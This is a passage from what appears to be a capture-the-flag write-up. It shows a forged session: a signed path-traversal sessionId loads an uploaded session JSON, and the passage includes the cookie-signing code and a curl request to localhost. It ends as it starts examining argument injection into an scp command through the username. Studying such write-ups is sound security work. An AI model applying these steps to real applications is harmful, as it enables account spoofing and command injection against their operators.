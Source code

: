 We don't seem to have control over the username though, because we are using the session we happened to find. Sessions are stored as files, you may start to see where we're going with this.

### Forging a Session File

As seen before, `session-file-store` uses `path.join` on the session directory and signed sessionId. Because we can sign arbitrary sessionIds now, we could create one with a path traversal.

If we point the session to `../files/admin/fake_session`, it will append `.json` and read `/tmp/sessions/../files/admin/fake_session.json`, which we can upload to!

By uploading a session (file with the name `fake_session.json`) in the following format, we can make it contain any username:

```json
{
  "cookie":{
    "originalMaxAge":9999999999999,
    "expires":"2341-10-01T08:45:48.759Z",
    "httpOnly":true,
    "path":"/"
  },
  "username":"ANYTHING",
  "flash":[],
  "__lastAccess":1731250748760
}
```

Then, we create a valid signature for the path traversal sessionId to load the username from our uploaded file.

```py
cookie = create_cookie("../files/admin/fake_session", secret)
print(cookie)  # s:../files/admin/fake_session.dW8TbN135258G7QJbU9bxIrbo5i21ARWjseYB6Wl7Bs
```

When we use the cookie on the home page, we can see that it recognizes our new name:

```shell
$ curl -s -H 'Cookie: connect.sid=s:../files/admin/fake_se
ssion.dW8TbN135258G7QJbU9bxIrbo5i21ARWjseYB6Wl7Bs' 'http://localhost:8000' | grep Hello

    <h3>Hello ANYTHING</h3>
```

### Argument Injection

We should now more closely look at the `scp` commands, because our username is now input into this function. The Bun Shell can still cause problems as we've seen with our initial access. Below is the command we have input into again:

```ts
await $`scp ${req.session.username}@backup:${tar} .`.cwd(cwd);
```

Because our input is at the start of the 1st argument, one idea would be to inject arguments starting with `-`. Adding arguments may allow executing unintended features of `scp`. When looking online for "Argument Injection in scp", we get a lot of results talking about CVE-2020-15778, but this is irrelevant. Instead, we should look at "SSH" argument injection vectors because the syntax for both commands is almost identical.
